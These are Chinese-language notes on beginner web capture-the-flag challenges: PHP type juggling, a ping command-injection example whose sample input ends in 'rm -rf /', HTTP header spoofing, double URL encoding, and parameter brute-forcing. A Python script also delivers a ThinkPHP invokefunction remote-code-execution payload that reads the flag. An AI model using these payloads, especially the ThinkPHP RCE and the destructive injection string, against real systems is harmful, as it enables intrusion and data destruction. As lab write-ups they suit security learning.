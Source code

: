 ```yaml
---
title: web入门
createTime: 2025/03/23 15:32:25
permalink: /security/6n77geb9/
---
```


## weak auth 弱口令

BurpSuite or Python 字典暴力破解

## simple_php

```php
<?php
show_source(__FILE__);
include("config.php");
$a=@$_GET['a'];
$b=@$_GET['b'];
// 如果 $a 大于0且 $a 为真
if($a==0 and $a){
    echo $flag1;
}
// 如果 $b 是数字，退出脚本
if(is_numeric($b)){
    exit();
}
// 如果 $b 大于 1234，输出 $flag2
if($b>1234){
    echo $flag2;
}
?>
```
> php的数据类型转换

在PHP中，字符串 "0" 会被视为假值，但字符串 "0abc" 会被视为真值。因此，我们可以尝试将 $a 设置为 "0abc"。

而"0abc" == 0 在PHP中为真，因为字符串会被转换为数字 0。


## Training-WWW-Robots

有时候，`robots.txt`会暴露网站的目录结构，而不是保护内容不被抓取。

## command_execution

WAF（Web Application Firewall，Web应用防火墙）

ping 功能通常会调用系统命令来执行网络请求。如果没有对用户输入进行严格的验证和过滤，攻击者可以通过构造恶意输入来`注入额外的系统命令`。

```php
<?php
$ip = $_GET['ip'];
system("ping -c 4 " . $ip);
?>
// ping -c 4 127.0.0.1; rm -rf /
```

## xff_referer

​X-Forwarded-For（XFF）​ 和 ​Referer 是 HTTP 请求头中常见的字段，但它们可以被伪造。X老师提醒小宁这一点，是因为在实际开发和渗透测试中，很多开发者会依赖这些字段进行验证或过滤，而攻击者可以通过伪造这些字段来绕过限制或进行恶意操作。

X-Forwarded-For 是一个 HTTP 请求头，通常用于标识客户端的原始 IP 地址。当请求经过代理服务器或负载均衡器时，代理服务器会将客户端的真实 IP 地址添加到 X-Forwarded-For 中。

Referer 是一个 HTTP 请求头，用于标识请求是从哪个页面或 URL 发起的。

​HTTP 头的本质：HTTP 请求头是由客户端（如浏览器或工具）发送的，客户端可以随意修改这些字段。

```python
import requests

url = "http://61.147.171.105:60835/"

headers = {
    "X-Forwarded-For": "123.123.123.123",
    "Referer": "https://www.google.com",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36",
}

response = requests.get(url, headers=headers)

response.encoding = "utf-8"

print(response.text)
```

## baby_web

重定向，http请求头

```python
import requests

url = "http://61.147.171.105:56645/index.php"

headers = {
    "X-Forwarded-For": "123.123.123.123",
    "Referer": "https://www.google.com",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36",
}

response = requests.get(url, headers=headers, allow_redirects=False)

response.encoding = "utf-8"

print(response.text)

headers = response.headers
for key, value in headers.items():
    print(f"{key}: {value}")
```

## simple_js


## PHP2

`index.phps`查看源代码。

```php
<?php
if("admin"===$_GET[id]) {
  echo("<p>not allowed!</p>");
  exit();
}

$_GET[id] = urldecode($_GET[id]);
if($_GET[id] == "admin")
{
  echo "<p>Access granted!</p>";
  echo "<p>Key: xxxxxxx </p>";
}
?>

Can you anthenticate to this website?
```

一次编码不够，二次编码`admin`为`%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65`

## ics-06

```python
import requests

url = "http://61.147.171.105:49811/index.php"

param_name = "id"

for value in range(1, 5000):
    full_url = f"{url}?{param_name}={value}"

    response = requests.get(full_url)

    response.encoding = "utf-8"
    if len(response.text) != 1545:
        print(f"{value} | {len(response.text)}")
```

## unserialize3


## php_rce

think_php漏洞

tail 代替 cat

cat flag绕过

```python
import requests

url = r"http://61.147.171.105:57525//index.php/"

mid = r"?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]="

payload = r"cd /;ca\t /flag"

url = url + mid + payload

response = requests.get(url)

response.encoding = "utf-8"

print(response.text)
```

##